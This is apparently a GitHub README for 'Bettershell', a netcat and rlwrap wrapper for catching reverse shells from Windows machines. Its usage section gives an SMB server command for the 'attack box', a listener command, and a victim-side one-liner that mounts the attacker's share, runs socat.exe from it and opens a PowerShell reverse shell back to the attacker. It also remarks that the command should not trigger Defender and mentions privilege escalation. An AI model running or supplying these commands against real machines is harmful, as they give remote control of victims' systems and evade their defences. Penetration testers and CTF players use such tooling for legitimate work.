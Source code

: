 # Bettershell
Bettershell is a basic netcat client, supercharged with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

### Features:
* Shells won't die on CTRL+C
* Preset tab autocomplete based on a Windows command list
* Filesystem-learning tab autocomplete, thanks to rlwrap's smart output parser
* Working arrowkey movement
* Searchable command history with CTRL+W
* An accurate path prompt
* No double echo of commands
* It's blue! Is it really powershell if it isn't blue?

Although bettershell can be used to catch any reverse shell from a Windows box, the included 'socat.exe' binary is strongly recommended to properly pipe stderr messages to your listener - visible error messages are invaluable when privilege-escalating.
## Usage

Open port 445, then start up an impacket SMB server on your attack box in the same directory as socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
Start a listener in another window: ```./bettershell -nlvp yourPORT```

Lastly, execute the following on the victim machine:
```
cmd.exe /c net use x: \\yourIP\SMB /user:user pass & x:\socat.exe tcp-connect:yourIP:yourPORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking older PCs that don't support it.
